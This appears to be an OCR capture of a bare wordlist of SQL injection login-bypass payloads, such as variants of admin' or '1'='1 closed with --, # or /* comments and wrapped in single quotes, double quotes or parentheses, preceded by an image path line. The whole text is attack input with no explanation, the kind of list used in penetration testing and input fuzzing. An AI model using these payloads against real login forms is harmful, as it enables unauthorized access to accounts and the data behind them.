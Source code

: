 # d
or 1=1
# 

or 1=1--
or 1=1#
or 1=1/*
admin' --
admin' #
admin' /*
admin' or '1'='1
admin' or '1'='1'--
admin' or '1'='1'#
admin' or '1'='1'/*
admin' or 1=1 or ''='
admin' or 1=1
admin' or 1=1--
admin' or 1=1#
admin' or 1=1/*
admin') or ( '1'='1
admin') or ( '1'='1'--
admin') or ( '1'='1'#
admin') or ( '1'='1'/*
admin') or '1'='1
admin') or '1'='1'
admin') or '1'='1'#
admin') or '1'='1'/*

admin" #
admin" /*
admin" --
admin" or "1"="1
admin" or "1"="1"--
admin" or "1"="1"#
admin" or "1"="1"/*
admin" or 1=1 or ""="
admin" or 1=1
admin" or 1=1--
admin" or 1=1#
admin" or 1=1/*
admin") or ("1"="1
admin") or ("1"="1"--
admin") or ("1"="1"#
admin") or ("1"="1"/*
admin") or "1"="1
admin") or "1"="1"--
admin") or "1"="1"#
admin") or "1"="1"/*
